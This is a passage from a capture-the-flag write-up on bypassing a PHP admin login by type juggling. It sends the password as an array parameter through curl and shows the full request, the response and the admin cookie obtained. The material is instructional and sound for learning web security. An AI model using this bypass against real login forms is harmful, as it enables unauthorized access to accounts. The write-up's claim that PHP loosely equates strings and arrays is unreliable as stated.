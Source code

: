 Lets use the default username of `administrator`, now all we need to do is bypass the password. Judging from the theme of the challenge and comments, we'll need to do some type juggling with the php requests.

Following this [guide](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), you can see the flaws with PHP's loose comparisons:

![loose comparisons](https://i.imgur.com/6IPJbuF.png)

However, trying all of these, I couldn't get them to work. The main reason is that with this site, the request is a form-data request, meaning it stringifys all input. Meaning instead of doing the normal
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://juliet.virginiacyberrange.net/admin.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=administrator&password=pass"
...
Wrong password.
```

We would replace `"Content-Type: application/x-www-form-urlencoded"` with `"Content-Type: application/json"` but as said before, we know that this form only accepts form-data or x-www-form-urlencoded requests. That rules out all integer/boolean/etc type juggling attacks. Which leaves us with arrays!

So when we send the request with the parameters `username=administrator&password=pass`, php sees:
```php
$_REQUEST["username"] = "administrator";
$_REQUEST["password"] = "pass";
```

But when we post `username=administrator&password[]=pass`, php sees:
```php
$_REQUEST["username"] = "administrator";
$_REQUEST["password"] = ["pass"];
```

And since in loose comparisons, a string is equal to an array, we can use the same trick to get the password to work.

We can send the same curl POST request except with the -v tag to get returned headers like cookies:
```
┌──(kali㉿kali)-[~]
└─$ curl -v -X POST http://juliet.virginiacyberrange.net/admin.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=administrator&password[]=pass"
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 54.85.223.47:80...
* Connected to juliet.virginiacyberrange.net (54.85.223.47) port 80 (#0)
> POST /admin.php HTTP/1.1
> Host: juliet.virginiacyberrange.net
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 38
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Wed, 27 Jul 2022 04:17:40 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 1016
< Connection: keep-alive
< Server: Apache/2.4.29 (Ubuntu)
< Set-Cookie: admin_cookie=mlqAAAnjnufewo29838ncbZ; expires=Wed, 27-Jul-2022 05:17:40 GMT; Max-Age=3600
...
You've logged in successfully.
```
